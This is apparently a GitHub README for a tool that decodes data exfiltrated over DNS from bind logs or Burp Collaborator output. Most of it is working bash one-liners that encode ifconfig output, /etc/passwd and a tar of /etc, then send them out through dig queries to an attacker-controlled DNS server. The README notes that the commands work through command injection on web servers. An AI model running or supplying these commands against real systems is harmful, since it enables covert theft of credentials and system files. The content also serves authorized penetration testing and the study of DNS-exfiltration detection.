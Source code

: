 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar burpsuite_pro.jar --collaborator-server | tee collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

In the examples below: `<Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`. Use a different query ID for each transfer.

For `base32`, the `-w63` flag specifies line wrapping at 63 bytes. For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

If results are unreliable you can specify the name or IP of the DNS server via `dig @`...

### Send STDOUT from a command

#### base32
```
ifconfig | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the output
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a file

#### base32
```
base32 -w63 < /etc/passwd | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the file
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

#### base32
```
gzip - < /etc/passwd | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/unzip the file
```
dns-parse.py <Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

#### base32
```
tar czf - /etc | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/save the tar archive
```
dns-parse.py <Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration via base32):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration via base32):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration via base32):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | zcat
```
